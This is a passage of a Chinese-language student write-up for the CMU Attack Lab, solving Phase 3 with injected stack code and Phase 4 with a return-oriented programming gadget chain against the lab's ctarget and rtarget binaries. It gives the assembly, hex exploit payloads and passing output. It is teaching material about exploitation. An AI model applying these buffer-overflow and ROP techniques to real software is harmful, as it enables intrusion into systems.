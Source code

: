 其中第一行为 

```asm
movq $0x556527c0, %rdi
ret
```

在Phase2中，已经获得了buffer在栈上的位置为 `0x55652778`，字符串位置的偏移量为72，$0x55652778+72=0x556527c0$。这样一来在进入函数 `hexmatch` 的时候 `sval` 指向 `0x556527c0`，这个位置上存储的是 字符串 `47db4e3a`，并且在之后的操作中不会覆盖掉之前的数据。

使用命令 `./hex2raw < phase3.txt > 2016011446.ctarget.l3; ./ctarget -q -i 2016011446.ctarget.l3` 得到如下结果：

```bash
n+e:~/wlxt/wjy/汇编语言程序设计(0)(2017-2018夏季学期)/attack/target2 ./hex2raw < phase3.txt > 2016011446.ctarget.l3; ./ctarget -q -i 2016011446.ctarget.l3
Cookie: 0x47db4e3a
Touch3!: You called touch3("47db4e3a")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	liu
	course	15213-f15
	lab	attacklab
	result	2:PASS:0xffffffff:ctarget:3:48 C7 C7 C0 27 65 55 C3 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 78 27 65 55 00 00 00 00 48 19 40 00 00 00 00 00 34 37 64 62 34 65 33 61 
```

![](phase3.png)

## Phase4

在 `rtarget` 中不允许在栈上执行代码，并且开了ASLR，但是按照pdf的提示，可以利用 `farm.c` 中的garget来组成汇编代码段，达成攻击目的。

使用命令 `objdump -d rtarget > rtarget.d` 得到反汇编代码 `rtarget.d`。查看 `getbuf` 函数得知还是 `BUFFER_SIZE=0x38`。

大致思路是把cookie存到栈中的某个位置，然后如果能直接 `pop %rdi` 之后直接进入 `touch2` 函数即可。可是在garget中没有 `pop %rdi` ，因此需另辟蹊径。查看后发现有 `pop %rax` 和 `movq %rax, %rdi` 两句话，可以拼起来。

构造攻击代码 `phase4.txt` 如下：

```text
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
fe 19 40 00 00 00 00 00
3a 4e db 47 00 00 00 00
ed 19 40 00 00 00 00 00
37 18 40 00 00 00 00 00
```
